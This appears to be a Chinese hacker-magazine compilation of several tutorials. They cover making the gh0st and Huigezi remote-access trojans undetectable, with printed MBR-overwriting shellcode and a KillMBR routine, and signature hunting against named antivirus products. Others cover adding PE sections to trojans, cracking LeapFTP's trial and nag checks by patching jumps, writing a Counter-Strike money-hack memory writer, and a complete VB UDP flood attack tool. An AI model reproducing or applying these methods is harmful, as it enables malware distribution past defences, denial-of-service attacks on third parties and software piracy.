object N2: TMenuItem
Caption = #20999#25442#21040#20869#32593
OnClick = N2Click
end

object N1: TMenuItem
AutoHotkeys = maManual
Caption = #20999#25442#21040#22806#32593
OnClick = N1Click
end
```

最后，点击工具栏“保存更新”按钮即可。经过一番忙活，得出的结论是：相对于其它资源修改管理器，无论PE Explorer还是eXeScope，对于Delphi编译程序的支持确实都更为强大。

图5

（本文所涉及到的软件内外网切换软件、WinHex、PE Explorer已收录在本期光盘中）

# “胆肥大叔”教你怎样源码免杀

“十一长假大家一定玩得很愉快吧。长假过后，我们的课又要开始了。”这时教室突然静的针掉地上都能听到。又子们四处张望，又突然窃窃私语：这是谁啊，未见其人先听其声。大家继续搜寻着，这时突然有一句话语将又子们吸引到了一个打扫卫生的大…

# 神秘园

双身上。只见那大叔摘掉斗笠，微微伸直身子说：“大家不用找了，就是我，以后的日子就有我和大家一起度过。”这时只听哄堂大笑。又子：“别开玩笑了大叔你逗我们玩吧。”这时只见那大叔慢慢走上讲台并说：“某某你昨晚是不是干xxx了”。这时大家都很惊奇，他是怎么知道的，难道我们成了传说中的肉鸡，并且主控端是大叔。难道这就是传说中的“扫地神僧”，真是人不可貌相，海水不可斗量。只见大叔一人在偷偷坏笑中。这时大叔接着说：“抓肉鸡，当然离不开免杀。我今天就教大家源码免杀。”这时又子都集中了精力了，哈哈，效果达到了，可以开课了。现以vc源码免杀讲解（gh0st源码），再以delphi源码（灰鸽子源码）讲解。

在连接（link）选项卡讲产生map文件（generate map-file）打上勾。再在工程选项卡中写入/mapinfo:lines，最后确定。（如图3）

图3

源码免杀也离不开手动定位特征码，但是修改比较容易，灵活性也比较大。

## 一、如何查找特征码

查找特征码与代码的对应位置，是这篇文章首先需要了解的基础。为了方便我们查找，在编译的时候生成map文件，选择vc工程选项（project），在下拉菜单中选择设置（settings），或者你也可以按快捷键alt+f7，弹出工程设置对话框（project settings）。（如图1）

点击c/c++选项卡，在工程选项（projectoption）中输入/Zd，或者你可以在调试信息（debug info）下拉列表中选择line numbers only。（如图2）

用od打开文件点击插件弹出下拉菜单选择godup plugins，在其二级菜单中选择load abel（如图4）。一般我们用myccl定位特征码，定位出特征码，然后导入od。myccl定位出的是文件特征码，而od中是内存地址。一般大家都会用一些地址转换工具把文件地址转换为内存地址再在od中查找，其实od已经给我们准备了这样的插件。在插件中选择olly advanced->option，在additional options中将启用改进的ctrl+g功能勾上（如图5）。

图1

图4

图2

ctrl+g运行选中偏移量，在下拉列表中就可以选择要用的文件（如图6）。例如在xxx出定位出的特征码载入汇编代码为call c在上面有call a，下面有call b，又或者有一些字串。根据这些信息，可以在vc中找相应信息比对，下面的实战中会详细说明。

## 二、如何定位特征码

我们一般手动定位出来的特征码有一些几种：定位到代码上，定位到字符串上，定位到输入表上。（高启发的最爱，例如nod32和小红伞）。

### （1）定位到代码

图

代码交换：例如 `int a; int b;` 定位的位置为 `int a`，你可以换一下位置改成 `int b; int a;`。

等价替换：例如 `char a[5]="hello";` 你可以改为 `char *p="hello";`。

合并分离代码：例如 `char a[5]="hello"; print(a);` 可以改为 `print("hello");` 分离就是其反过程。

添加花指令：例如直接在代码前后加 `nop`。`__asm{nop}`，`nop` 数量随意。

如果不想定位的话，大家可以直接在代码中多出直接加花指令，是代码位置发生变化。即可达到免杀但是对字符串和输入表无效。所以大家在定位特征码之前在代码处先加一些花指令。

图

对于高启发杀的代码，可以用 `try{} catch(){}` 结构。对于杀入口的可以用 `#pragma comment(linker, "/ENTRY:xxx")`。对于定位出来的特征码载入 `c32`，看起属于代码部分还是字符串，输入表部分，决定其属于哪一种。

## 三、实战应用

说了这么多理论，下面开始实战。首先安装 `vc6.0` 编译器，将 `sdk` 文件解压覆盖编译器目录下的 `vc98`。`vc98` 下是一些库文件（如图7）。

图7

### （2）定位到字符串

修改字串：现将其中几个字符修改，然后再将其修改过来。例如 `char *p="hello";` 你可以改为 `char *p="mello"; p[0]='h';`

连接字串：将字串分为两部分，然后再连接一下。例如 `char *p="hello";` 可以改为 `char *p="he"; strcat(p,"llo");`

字串加密：将字串加密一下，然后在解密。例如 `char *p="hello";` 可以将其改为 `char *p="gdkkn"; for(int i=0;i<5;i++) p[i]++;`

翻转字串：例如有字符串为 `"hello"`，你可以现将字串改为 `"olleh"`，再用 `strrev` 将其翻转回来，`strrev("olleh")` 最后输入结果就为 `hello`。

字串修改应该还有别的方法，大家可以自由发挥。

ghost 文件为了保护版权，里面有硬盘锁，必须先将硬盘锁去掉，否则修改版权就会导中硬盘锁，所有盘符不能打开，只能重转系统，大家切记。修改两处就可以去掉硬盘锁。运行源代码，打开搜索框搜 `unsigned char scode[] =`，一会下面的框框就会提示发现一处，我们双击它（如图8）。

图8

### （3）定位到输入表

```
typedef int (WINAPI *pMessageBoxA);
pMessageBoxA pMessageBoxA=
(pMessageBoxA)GetProcAddress(LoadLibrary("user32.dll"),"MessageBoxA");
```

来到该代码的位置，将如下的代码用 `/**/` 注释掉（你也可以删除掉）。

```
/*unsigned char scode[] =
"\xb8\x12\x00\xcd\x10\xbd\x18\x7c\xb9\x18\x00\xb8\x01\x13\xbb\x0c"
"\x00\xba\x1d\x0e\xcd\x10\xe2\xfe\x49\x20\x61\x6d\x20\x76\x69\x72"
"\x75\x73\x21\x20\x46\x75\x63\x6b\x20\x79\x6f\x75\x20\x3a\x2d\x29";

int CGh0stApp::KilMBR()
{
    HANDLE hDevice;
    DWORD dwBytesWritten, dwBytesReturned;
    BYTE pMBR[512] = {0};

    // 重新构造MBR
    memcpy(pMBR, scode, sizeof(scode) - 1);
    pMBR[510] = 0x55;
    pMBR[511] = 0xAA;

    hDevice = CreateFile(
        "\\\\.\\PHYSICALDRIVE0",
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        0,
        NULL
    );

    if (hDevice == INVALID_HANDLE_VALUE)
        return -1;

    DeviceIoControl(
        hDevice,
        FSCTL_LOCK_VOLUME,
        NULL,
        0,
        NULL,
        0,
        &dwBytesReturned,
        NULL
    );

    // 写入病毒内容
    WriteFile(hDevice, pMBR, sizeof(pMBR), &dwBytesWritten, NULL);

    DeviceIoControl(
        ...
    );


```

```
DeviceIoControl(
    hDevice,
    FSCTL_UNLOCK_VOLUME,
    NULL,
    0,
    NULL,
    0,
    &dwBytesReturned,
    NULL
);
CloseHandle(hDevice);
ExitProcess(-1);
return 0;
}
*/

/*  char strVer[10];
    char strTitle[10];

    strVer[0] = 'C';
    strVer[1] = ':';
    strVer[2] = 'R';
    strVer[3] = 'u';
    strVer[4] = 'f';
    strVer[5] = 'u';
    strVer[6] = 's';
    strVer[7] = ':';
    strVer[8] = 'S';
    strVer[9] = '\0';

    strTitle[0] = 'G';
    strTitle[1] = 'h';
    strTitle[2] = '0';
    strTitle[3] = 's';
    strTitle[4] = 't';
    strTitle[5] = ':';
    strTitle[6] = 'R';
    strTitle[7] = 'A';
    strTitle[8] = 'T';
    strTitle[9] = '\0';

    CString str;
    GetDlgItemText(IDC_STATIC_VER, str);
    if (str.Find(strVer) == -1)


```

再搜索CBuildView::OnActivateView，来到代码处将如下代码注释掉

```
((CGh0stApp *)AfxGetApp())->KillMBR();

GetParent()->GetWindowText(str);
if (str.Find(strTitle) == -1)
{
    ((CGh0stApp *)AfxGetApp())->KillMBR();
}
```

再搜索killmbr将`// int KillMBR();`注释掉。现在可以随便修改版权信息了（如图9）。

图9

搜索`m_pMainWnd->SetMenu(NULL);`注释掉这句可以去掉菜单栏。搜索`CMainFrame::PreCreateWindow`，可修改软件宽高与标题栏；搜索`COLUMNSTRUCT g_Column_Data[]`可修改列表控件上方文字；在`CMainFrame::OnCreate`中加入`this->CenterWindow(CWnd::GetDesktopWindow())`可使软件启动时居中（如图10）。

图10

下面来将dll以及install放到bin文件夹中（便于免杀）。工程中的svchost文件是dll源码文件，ghost是控制端源码文件，install是loader文件。调整输出文件名，将`../install/res/svchost.dll`改为`../../bin/g486se.dll`，并将`../gh0st/res/install.exe`改为`../../bin/install.dat`等。

同理将`../gh0st/res/install.exe`改为`../../bin/install.dat`，修改后缀防止误点。搜索`IDR_DLL`将`res\\svchost.dll`改为`..\\..\\bin\\g486se.dll`，搜索`IDR_BSS`将`res\\install.exe`改为`..\\bin\\install.dat`。删除驱动文件相关资源（如`IDR_SYS`）及`gh0st`资源下的`IDR_BSS`。

```
// gh0st buildview.cpp
HINSTANCE hInstance;
HRSRC     hResInfo;
DWORD     dwResLen;
HGLOBAL   hResData;
LPBYTE    lpData;

hInstance = AfxGetApp()->m_hInstance;
hResInfo = FindResource(hInstance, (LPCTSTR)IDR_BSS, (LPCTSTR)"BSS");
dwResLen = SizeofResource(hInstance, hResInfo);
hResData = LoadResource(hInstance, hResInfo);
lpData = (LPBYTE)LockResource(hResData);

CFile file;
if(file.Open(dlg.GetPathName(), CFile::modeCreate | CFile::modeWrite))
{
    file.Write(lpData, dwResLen);
}
```

```
// 修改为
char xpath[MAX_PATH];
GetModuleFileName(NULL, xpath, sizeof(xpath));
PCHAR pos = strrchr(xpath, '\\');
*pos='\0';
lstrcat(xpath, "\\install.dat");
CopyFile(xpath, dlg.GetPathName(), NULL);

CFile file;
if(file.Open(dlg.GetPathName(), CFile::modeWrite))
{
    file.SeekToEnd();
}
```

注释掉`FreeResource(hResData);`，再修改一些字符串（一般杀软都杀的），搜索`AAAAAA`，找到三处，将6个A替换为任意内容。

# 神秘园

六个字符的字串，我这里改为 XFILES。再搜索 CCCCCCC，搜到两处，也是改为任意6个字符，我将其改为了 SEILFX。搜索 Gh0st Update，搜到两处，将其改为任意字串，我改为 g49eg4e。在 server 文件下搜索 Gh0st，搜到一处，将其改为任意字串，我改为了 xfj%dle$。准备工作的最后一步就是把 svchost 文件版本信息给改一下，这里我改成卡巴斯基的（如图12）。

数调用和用户函数调用，对于用调用采用 call xxx 形式；对于系统调用采用 call xxx, xxx:jump 函数。我们在源码 svchost 中搜索 **GetModuleFileNameEx**（对于函数有两种版本 ascii 和 unicode 版本，为了兼容两种版本，定义了一个宏），搜索到一处，我们在它前面加几句花指令 asm{nop}。好了使用金山查杀一下，已经不杀了。（如图14）

下面先拿“软特征码少的杀软”讲解，让大家都感性的认识。今天就拿金山开刀吧。首先打开 myccl 载入 dll 文件定位特征码。将特征码开始的位置填为 400，大小填为（就是代码段开始的地方和大小）。这里分块，刚开始不易分得太多，分多了费时，我这里分成了 10 块。点生成，杀软查杀默认生成的 output 文件，定位出 107000_2500，右键复合定位此特征区间，但是无论改成 100 块还是 200 块都会全部查杀，我们把这个文件载入 c32 利用折半法手工定位，从 10700 开始选取 1250 个字节，填充为 00（对于瑞星，填充为 90）。在用杀软进行查杀，如果杀软不报毒，那说明特征码在从 10700 开始的 1250 个字节中，反之则在剩下的 1250 个字节中。一直重复折半直到找到特征码。我这里找到的位置为 107190 位置的八个字节。

用 od 载入 dll 文件，ctrl+g，输入 **10719**，在下拉列表中选择该 dll，跳到一片 jump 代码处（如图13），而该特征码位置代码为 jump GetModuleFileNameExA，操作系统为了区分系统函数调用和用户函数调用，对于调用采用 call xxx 形式。接下来定位 dat 文件，定位特征码。od 打开后什么特征函数也没有。这是应该考虑可能不是代码问题，install 代码也不多。从头文件开始慢慢注释掉一些语句，接着查杀。定位为 `#pragma comment(linker,"/defaultlib:msvcrt.lib /opt:nowin98 /IGNORE:4078 /MERGE:.rdata=.text /MERGE:.data=.text /section:.text,ERW")`，看这句里面有区段合并（`/MERGE:.rdata=.text /MERGE:.data=.text`），杀软有时也对区段合并查杀，将区段合并去掉改为 `#pragma comment(linker,"/defaultlib:msvcrt.lib /opt:nowin98 /IGNORE:4078")` 用金山查杀，已经不杀了。现在生成一个服务端，运行，已经上线了（如图15）。

台下 x 子们已经听得有点晕了，这时大叔说：“时间也不早了，今天先说这些，只是个热身，大家回去慢慢消化一下吧，下节课我将会带大家免杀卡巴等尚启发杀软。”

> （文章中涉及到的 gh0st3.6_src10-17 已经收录在光盘中）

## 追寻特征码 轻松免杀软子

随着杀毒软件病毒库的日益庞大，病毒被杀的概率也越来越大。往往早上编写完成的病毒，到了下午就被列入病毒库。面对病毒被杀的尴尬，我们只能走一条路：免杀。

现在的杀毒软件日益强大，其病毒库的病毒种类也变多。当杀毒软件获得病毒样本后，会从病毒中取一段足以证明该病毒身份且独一无二的二进制代码，这就是所谓的特征码。

被列入病毒库后，凡是带有该特征码的程序几乎都会被杀毒软件视为病毒程序。为了减少误杀的概率，现在的杀毒软件往往会从多处截取多段特征码，这就是复合特征码。

目前市场的杀毒软件杀毒方式大多分为两种：文件杀毒和内存杀毒，这两个方式的典型代表就是瑞星和卡巴斯基。一般我做免杀都用这两个杀毒软件做为参照，从另一个侧面我们也可以得出一个结论：病毒的免杀必须要从文件和内存两方面入手。

以灰鸽子为例，我们就用修改特征码的方式来为灰鸽子做一次免杀。打开MYCCL加载灰鸽子的服务端，选择“带后缀”并为它设置一个目录（如图1）。在这里我把分块数量设置为15（大家可以根据需求自行设置，不过要遵循由小到大的原则），然后生成就可以产生程序分块了（如图2）。

接下来启动360安全卫士对目录内容进行查杀，检测到被杀文件后，把所有被杀文件删除掉。再进行二次处理，这时我们会发现MYCCL已经发现了一处特征码（如图3）。这时我们继续使用杀毒软件杀毒，继续把被杀文件删除，再进行二次处理。这时我们发现程序再次出现提示发现特征码，这也就使我们获得了特征码的大致范围（如图4）。

为了尽可能缩小特征码范围，我们还要继续操作。选择“特征区间”，右击特征码选择“符合定位此处”。然后再把分块数据改成100，这就是从小到大的原则。接着继续我们之前的操作，不断循环，直到生成的文件不被杀死为止，也就是说不断地取得特征码范围，直到没有特征码可以取为止。

取完特征码后，我们就要对特征码进行修改。打开C32Asm或入灰鸽子的服务端，从第三排工具栏中选择倒数第三个（像花环一样的那个图标），接下来就是对特征码进行汇编修改。找到从汇编代码选取出特征码，右击特征码，选择“跳到”。这时会弹出一个窗口，我们在OFFSET中输入特征码地址后就会自动找到特征码所在位置。我们右击选择“填充”，用00直接填充后保存就可以了（如图5）。

修改特征码是最常见的一种免杀方式，免杀的效果也非常不错。但面对当前杀毒的主动防御和云查杀，光是特征码已经不行了。还是那句话：免杀要结合多种方式才能起到效果。另外有一点各位要注意，每种木马都有自己的启动方式，针对不同的木马要采用不同的免杀方式，但免杀绝对不能单一。

（文章中所涉及到的MYCCL、C32Asm已收录在本期光盘中）

## 解决加区提示空间不足的小技巧

湘雅医学院2008级 高柳

以前做免杀的时候总是习惯给木马先加一个区段，这样加花加密什么的都很方便，但是最近加区时却遇到了一个郁闷的问题。

直接用加区工具加区时提示“没有足够的空间添加区段（如图1）”。

由于以前从没遇到过这样的状况，于是我就在论坛上各种求助，加上自己的一些尝试终于把问题解决了，这里把方法给大家分享一下。

我这里就不用木马而直接用记事本文件来做例子好了，我的系统版本是深蓝技术Ghost XP SP3纯净版，大家可以试试，一开始无论用什么加区工具都会提示空间不够的。

我们把文件用C32载入，找到文件的PE头位置，在这里有一些垃圾信息是不必要的，我们先用一款清理工具PEclean清理一下（如图2）。

大家可以看到，现在就很清晰了，在C32右边显示的有个PE字符，这里就是PE头了，在我鼠标选中的位置是标志PE头大小的地方。我们可以在左边看到机器码是E0，这里是十六进制，转换成十进制就是224，也就是PE头的大小就是224个字节。

现在我们把PE头整体上移一下，网络上也有很多类似的教程了，常做免杀的朋友应该也很熟悉，从PE字样开始选择到其后的224个字节，然后拷贝粘贴到上面几行，这里注意最上的四行是MZ头的位置，是不可以占用的，其后的位置都可以。

我们把粘贴前的PE头剩余位置的数据都用00填充掉。再在MZ头里更改一下PE头的标志，这里大家可以看图（如图3），我们PE头移动的新位置是00000050，所以在我鼠标选中的位置就要把E0改成50。

从这里开始就是不一样的地方了。以前我们移动PE头后都要改动下PE头的新大小，但这里我们保持原有的大小不变，当然这样肯定是不能正常运行的，因为PE头的大小标志不正确。正常情况下，系统会在PE头的后面寻找区段表的，但是现在PE头被我们上移了，自然系统就找不到区段表了，文件也就不能运行了。

所以我们就要把后面紧跟着的区段表也上移，被选中的地方就是区段表了（如图4）。

大家可以看到 .text、.data、.rsrc 字样，说明记事本文件有三个区段，分别叫 text、data、rsrc。一般情况下，每个区段连名称占据有 40 个字节，里面包括了区段的位置、大小等信息。

总结一下，加区工具加区的时候会在区段表末尾写入信息，如果区段表末尾空间不足就会提示加区失败，这时我们可以把 PE 头整体上移，为区段表腾出空间，然后把区段表上移就可以了，一般的 PE 文件这样处理后加 3 到 4 的区段应该都没问题。

所以这里就要把整个区段表也复制下来，拷贝粘贴到移动后的 PE 头后面的位置，操作和上面很相似，我就不赘述了，大家看图。最后把原来的区段表数据 00 填充掉，保存就可以了。这时我们再用加区工具试一下，成功了，程序也是可以正常运行的（如图5、6）。

（文章中所涉及到的 PEclean 已收录在光盘中）

## LeapFTP的轻量级破解

LeapFTP 是一款我很喜欢的 FTP 工具，无论是友好的交互界面、齐全的上传和下载管理功能，还是支持拖拽式等便捷操作，都足以称得上优点多到“罄竹难书”——除了要收费。处于试用状态的 LeapFTP 有 30 天试用的时间限制，以及会在启动时弹出一个很有爱的提示框（图1）。

用进度条表示试用状态还是头一次见，其它的布局都和标准的 Nag 大同小异，这句 “This dialog does not appear in the registered version” 就是很好的身份证明。如果有注册码，或者 Key 文件，可以点击 “Enter Code” 按钮根据提示进行注册，这时也是跟注册码的好时机。LeapFTP 不能直接输入注册码，而是采用粘贴和导入文件两种方法获取输入。

接着观察，轮到修改时间。我把系统时间改到试用期满的那一天，这次没有 “Accept”，只能注册了（图2）。这时应该同时打开 RegMon 和 FileMon 监控，很多试用版的软件在试用结束后，会写入某个键值或者文件作为标记，这样这台机器就算把时间再改回去，也无法继续试用了。但这里，我并没有捕捉到 LeapFTP 有类似的操作，看来 LeapFTP 只是单纯的读取时间进行比较。

试验证明了我的推测。把时间改回来后，LeapFTP 又可以试用了。点击 “Accept” 按钮开始试用，除了标题栏显示 “Unregistered（图3）”，并没有发现功能方面的限制。

这是发现绝对具有里程碑意义。以往我们破解，不是追码就是爆破，总之必须找到判断是否已注册的核心算法的汇编码，找出可能一个也可能有多个的决定性条件跳转，例如 LeapFTP 中就有多个检查点，挖出来还是得花点力气。但，当我们发现试用版只存在时间或者次数上的限制，而没有缺少功能时，就可以考虑本文提出的轻量级破解——全称为无限延长试用时间或者次数的无赖招数。

首先就是去 Nag（Nag 在破解中常代表非注册的提示框，这篇文章中指代的是试用的提示框）。去哪里找生成 Nag 的代码呢？没找到 CreateWindow，没找到 DialogBox，总算找到个靠谱的 CreateWindowEx，可是被调用太多，F9 按得好烦。重新观察图1的提示框，“You are on day 1 of 30 day trial period” 引起我的好奇。显然，这个“1”肯定是个变量，而这个变量显然与时间有关。好，就从这个 1 下手；按编程习惯猜一下，这段显示会不会是字符串 “You are on day” 和 “of 30 day trial period” 加上一个显示日期的变量连接而成？

# 神秘园

OD搜索字符串，Bingo！找到如下代码：

```
asm
0056340E  E8 BDFEF0FF    call 004732D0
00563413  8BD8           mov  ebx,eax
00563415  68 78355600    push 00563578    ; you are on day
0056341A  8D55F0         lea  edx,[local.4]
0056341D  8BC6           mov  eax,esi
0056341F  E8 0C66EAFF    call 00409A30
00563424  FF75F0         push [local.4]
00563427  68 90355600    push 00563590    ; of your 30 day trial period
0056342C  8D45F4         lea  eax,[local.3]
0056342F  BA 03000000    mov  edx,3
00563434  E8 671CEAFF    call 004050A0
00563439  8B55F4         mov  edx,[local.3]
0056343C  8B83 18030000  mov  eax,dword ptr [ebx+318]
00563442  E8 19E8F1FF    call 00481C60
00563447  8B87 74090000  mov  eax,dword ptr [edi+974]
0056344D  8983 2C030000  mov  dword ptr [ebx+32C],eax
00563453  8BC6           mov  eax,esi
00563455  83E8 1F        sub  eax,1F       ; Switch (cases 0..2D)
00563458  72 07          jb   short 00563461
0056345A  83E8 0F        sub  eax,0F
0056345D  72 3C          jb   short 0056349B
0056345F  EB 79          jmp  short 005634DA
```

注意0056341D处的mov eax,esi，其中esi保存的值正是软件使用的时间-1。循着esi的来源顺藤摸瓜，可以追踪到LeapFTP是怎样获取当前系统时间及文件创建时间，并计算出已使用的天数。

好吧，那些追踪还是太费体力了，注意00563458处有两个条件跳转和一个无条件跳转，而且是由eax，即软件使用时间-1的值，分别减去1FH和0FH去做为判断条件。

一路F8，可以看到在试用期内，程序在第一个条件跳转，也就是00563458处就跳了，很自然就会去想，为什么要分别减去1FH呢？1FH对应的十进制是31，正好比试用的30天多1，而条件跳转又是jb，联系上面的分析，不难推测出这里进行的是试用期是否已满的判断。而修改时间发现，如果使用期满，则会转到0056345F处的jmp跳转，应证了猜想。

这一部分分析完毕。让这几个跳转直接转到返回，Nag对话框就不会出现，这种修改方法，我称之为去Nag的1.0版本。用时没问题了，只是，经过上面分析，这段代码就是获取时间和弹出Nag对话框，并没有任何实质操作，是不是可以直接跳过这段代码呢？

跟踪到这一部分代码的返回，返回到00564ADF：

```
asm
00564ACF  E8 B86EFBFF    call 0051B98C
00564AD6  75 22          jnz  short 00564AFA
00564AD8  8BC3           mov  eax,ebx
00564ADA  E8 B5E8FFFF    call 00563394
00564ADF  84C0           test al,al
```

00564ADA处就是调用弹对话框的函数，往上不远处有个条件跳转，根据是否已注册进行判断，把jnz修改成jmp，就可以去Nag了。大功告成。不过如果标题栏上那个令人纠结的unregistered也能去掉，那就更完美了。试试吧，还是字符串搜索“unregistered”，来到这里：

```
asm
005639A7  E8 2423F4FF    call 004A5CD0
005639AC  8B83 38050000  mov  eax,dword ptr [ebx+538]
005639B2  80B8 A8000000 00  cmp  byte ptr [eax+A8],0
005639B9  75 0E          jnz  short 005639C9
005639BB  BA 143A5600    mov  edx,00563A14    ; leapftp 3.1.0
005639C0  8BC3           mov  eax,ebx
005639C2  E8 99E2F1FF    call 00481C60
005639C7  EB 0C          jmp  short 005639D5
005639C9  BA 2C3A5600    mov  edx,00563A2C    ; leapftp 3.1.0-(unregistered)
005639CE  8BC3           mov  eax,ebx
005639D0  E8 8BE2F1FF    call 00481C60
```

005639B9处的jnz，如果是未注册则跳转。Call 00481C60用来设置标题栏。可以看到，如果是未注册，则传入字符串“leapftp 3.1.0 - (unregistered)”作为参数，只要把jnz指令nop掉，标题栏就不带“unregistered”了（图4）。

这次的LeapFTP轻量级破解就告一段落了，采取的策略主要是黑盒观察辅以OD的字符串搜索，并没有陷入太多繁杂的代码中去，希望能给大家的破解思路，带来一丝凉风。Suno写于字数大战正酣。

如对本文有疑义请来suno的群交流：www.hackx.cc/forum.php?mod=group&fid=86

（本文所涉及的软件LeapFTP，OD本期光盘已收录）

## 使用CE语言来编写一个简单的游戏外挂

风落雨

外挂就是指在没有特定软件源代码的情况下，程序作者通过其高超的技术手段对某一软件实现功能扩展的一种程序。外挂程序可以使游戏里一些繁琐的操作变得简单化，还可以使游戏玩家实现一些在正常情况下不可能达到的目的。相信很多读者在玩游戏的时候都使用过外挂程序吧，本文我们就使用E语言来编写一个反恐精英游戏的刷钱外挂，希望大家通过本文的学习能够掌握一些简单的外挂程序的编写方法。

我的编程思路如下：1、获取游戏窗口句柄；2、判断游戏是否运行；3、修改内存中的数据。下面我们就开始外挂程序的编写，需要用到的工具有CE、窗体侦探和E语言，如图1，另外我们还需要E语言模块，分别是外挂作坊3.0模块和外挂海的万能模块，如图2。外挂海的万能模块在网上可以下载到，但遗憾的是外挂作坊的模块就只能到外挂作坊官网购买得到了。

时在搜索结果中还剩下两项，这两项中有一项就是金钱的地址，如图5。那么我们要怎样才能确定哪一个才是真正的地址呢？其实我们只要修改这两项的数值，然后再在CS中买个东西，就知……


图3


图1

首先我们要找到金钱的基址，打开CS游戏，然后打开CE，选择左上方的第一个按钮，并选择CS游戏的进程，如图3。查看一下CS游戏中你的金钱是多少，然后在CE中的数值栏中输入你的金钱数额并点击“首次搜索”按钮，如图4，接下来我们在CS中随便购买个东西，将改变后的金钱数额填入到CE中点击“再次搜索”，此……


图2


图4

# 黑客编程


道是哪个一个了。经过我的测试，这两个地址中有一个修改数值后只能改变CS中的金钱显示，但不能改变真实的金钱数，而且这两个地址会随着CS的再次启动而改变，所以在实际的修改过程中，大家请自行搜索并按照上述的步骤进行测试。

因为内存地址每次都会改变，但基址不会改变，所以我们要找到基址才行。那么在找到内存地址后我们要怎样寻找基址呢？我们只要在找到的地址上点击鼠标右键，选择“寻找写入这个地址的代码”，如图6，然后再在CS中购买个东西，此时在CE中就会检测到了，如图7。双击打开，在弹出的附加信息对话框中我们会看到“指针值需要查找该地址的可能是”的提示，把它后面的地址记录下来，还有上面那一行的代码，我们要记录下中间数值的后三位，这里也就是1CC，如图8。


在CE中搜索刚才记下的地址，这里需要注意的是，在搜索时要选上前面的十六进制选项。搜索完成后选择搜索到的前5个地址，双击选择的地址，在弹出的选项框中复制地址并选择指针选项，如图9，在“指针地址”中填写你刚才复制的地址，在偏移量（Offset）中填写我们刚才记录下的“1CC”，如图10，然后查看哪一个和我们游戏中的金钱数值一致，如果有多个的话就断开连接再进一次（这里注意，我说的是断开连接，而不是关掉游戏），金钱数目和游戏中一致的那个就是了。记录下他的指针地址，这个就是我们要寻找的基址了（查看指针地址，只需要双击它就行了）。


图12

- 程序集变量 游戏进程句柄，整数型
- 程序集变量 游戏进程ID，整数型
- 子程序 __启动窗口_创建完毕
- 子程序 __按钮1_被单击

接下来我们打开E语言，我简单的布置了一下程序界面，如图11所示，在E语言中别忘记了先添加外挂海和外挂作坊的模块。另外，我们还需要使用窗口侦探来查看CS的窗口类名和窗口标题，把这些都记录下来，在编写代码时会用到的。具体的代码如图12所示。


图10

游戏窗口句柄 = 取窗体句柄（“Valve001”，“Counter-Strike”）‘获取什么类名，什么标题的窗口句柄，然后赋值给我们变量的游戏窗口句柄变量名

判断开始（游戏窗口句柄 ≠ 0）判断一下游戏窗口句柄是否已经赋值，如果游戏窗口句柄不等于0，就执行下面这句代码

```
默认
    信息框（“游戏未运行”，0，）
    返回（）
判断结束
游戏进程ID = 取窗口进程ID（游戏窗口句柄）
写内存整数型（游戏进程ID，到数值（读内存整数型（游戏进程ID，十六到十（“03C2FC50”） + 十六到十（“1CC”），16000）
信息框（“现在你可以购买东西了”，64，“恭喜”）
```


图11

程序集 窗口程序集1
程序集变量 游戏窗口句柄，整数型

好了，这个简单的外挂程序就算是编写好了，当然我们还可以修改血值和一些其它的东西，本文只是给大家介绍一下方法而已，其它的这些修改或者朋友们就请自行去测试吧！

（文章中涉及到的CE、窗口侦探、外挂作坊3.0模块和外挂海的万能模块，已经收录在了光盘中）

## 用VB制作UDP洪水攻击器

无敌闲闲

众所周知，UDP连接之所以不同于TCP连接，就是因为UDP连接不需要与主机建立连接，而是直接给目标主机发送数据……本文我们就利用UDP协议的连接特性来编写一个UDP洪水攻击器。

我的思路是这样的，先选择目标主机的地址、端口号以及连接数，然后使用winsock控件向目标主机发送海量的无用数据……我们来开工吧！

打开VB6.0，新建一个标准EXE工程，程序的界面如图1所示，这里使用到一个winsock控件……程序具体的代码如下：

```
vb
Dim duankou As Integer
Private shujubao As String
Private Sub Form_Load()
    Timer1.Interval = 100
    Timer1.Enabled = False
    Command1.Caption = "淹死他"
    Command2.Caption = "饶了他"
End Sub
```


图1

上面的代码就是初始化，设置timer1计时器控件的频率为100毫秒，并且为不工作状态，然后设置Command1、Command2分别为“淹死他”、“饶了他”。

```
vb
Private Sub Command1_Click()
Dim mubiaozhuji As String
Dim mubiaoduankou As Integer
Dim lianjieshu As Integer
duankou = 8000
If Not IsNumeric(Text2.Text) Then
    MsgBox "端口输入错误!"
    Exit Sub
End If
If Not IsNumeric(Text3.Text) Then
    MsgBox "连接数输入错误!"
    Exit Sub
End If
mubiaozhuji = Text1.Text
mubiaoduankou = Text2.Text
lianjieshu = Text3.Text
For i = 1 To lianjieshu
    Load sock(i)
    sock(i).Protocol = sckUDPProtocol
    sock(i).RemoteHost = mubiaozhuji
    sock(i).RemotePort = mubiaoduankou
    sock(i).LocalPort = duankou
    sock(i).Connect
    duankou = duankou + 1
Next i
Call gouzaobao
Timer1.Enabled = True
End Sub
```

当单击command1，也就是“淹死他”按钮后，就动态生成sock控件数组用于发送数据，然后timer1计时器控件开始工作，发送海量无用的数据，进行轰炸。

```
vb
Private Sub Command2_Click()
' ...
End Sub
```

```
vb
Timer1.Enabled=False    'timer1停止工作
For i = 1 To sock.Count - 1   '删除sock控件数组
    Unload sock(i)
Next i

MsgBox "停止攻击!"
End Sub
```

```
vb
Private Sub gouzaobao()    '这个过程用于构造数据包，构造9999个A
For i = 1 To 9999
    shujubao = shujubao & "A"
    DoEvents
Next
End Sub
```

当单击command2，也就是“饶了他”按钮后，就删除生成的sock控件数组，并且timer1计时器控件停止工作；

```
vb
Private Sub Timer1_Timer()    'timer1用于发送数据
On Error Resume Next          '容错
For i = 0 To sock.Count       '循环发送数据
    sock(i).SendData shujubao
Next i
End Sub
```

这是Timer1计时器控件，用于循环发送数据，这也是整个程序的核心，没有这段代码的话，那么刚才再多的设置也是无用功！

这个gouzaobao过程用于构造垃圾数据包，也就是构造9999个字符“A”用于轰炸。好了，整个程序差不多也完工了，来测试一下效果如何吧！当然是我们使用的电脑越强悍效果也就越好了……


图2

文章到这里就结束了，最后我再提醒一下玩黑的叉子们，要适可而止哟，因为法律明令规定，非法攻击他人的网络，警察叔叔是会请你喝茶的哟！

> （文章中涉及到的UDP洪水攻击器以及源代码，已经收录在了光盘中）

## VC9完善进程管理器

### ——菜单栏的添加以及函数编写

Ccy浩然

在今年第三期的杂志中，我给大家带来了一个自己编写的进程查看器，但是由于时间比较仓促，有一些功能还没来得及实现。这次我把它移植到了VC++9.0（包含在Visual Studio 2008中）中。

